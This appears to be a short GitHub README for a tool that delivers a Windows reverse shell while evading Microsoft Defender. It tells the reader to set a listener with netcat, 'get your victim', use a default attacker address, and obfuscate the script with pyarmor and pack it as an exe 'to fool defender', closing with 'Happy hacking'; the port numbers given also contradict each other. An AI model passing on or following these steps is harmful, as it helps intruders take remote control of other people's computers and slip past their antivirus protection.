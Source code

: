# Reverse_shell_bypass_win10-11_defender
How to use 
1.Use linux for best result for apache2
2.type the ip and port of your desired Reverse shell
3type nc -lvnp {port}
4.Get your Victim
5.(Optional)Default ip is 192.168.1.18:8000 if you want easier change your ip to that and use port 800 in netcat


Please to fool defender do pip install pyarmor
and then pyarmor gen app.py after you modify the file and do an autopytoexe to make it exe!

-Happy hacking!
